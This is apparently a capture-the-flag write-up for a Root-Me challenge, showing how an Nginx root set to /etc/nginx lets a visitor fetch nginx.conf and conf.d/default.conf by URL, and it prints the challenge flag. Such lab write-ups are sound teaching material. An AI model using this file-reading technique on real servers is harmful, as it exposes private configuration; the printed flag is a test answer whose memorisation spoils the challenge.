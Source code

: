 ```yaml
---
layout: default
title: Nginx-Root-Location-Misconfiguration
---
```


I searched in google and found this [common ngnix misconfigurations](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/), and there I could see that these lines:
```
server {
    listen       80;
    server_name  _;
    root /etc/nginx;
```
sets the `root` folder to `/etc/nginx`. This means that if we asks for example for `/nginx.conf`, we bascilly asks for this path: `/etc/nginx/nginx.conf`.

Let's try it:
`http://challenge01.root-me.org:59093/nginx.conf`

I'm getting:
```

user  nginx;
worker_processes  auto;

error_log  /var/log/nginx/error.log notice;
pid        /var/run/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

    include /etc/nginx/conf.d/default.conf;
}
```
Let's try getting this: `conf.d/default.conf`, by accessing this url: `http://challenge01.root-me.org:59093/conf.d/default.conf`

Yay, the flag is there.

**Flag:** ***`RM{b3_C4r3fU1_ab0uT_R00t_L0cat1on<3}`***
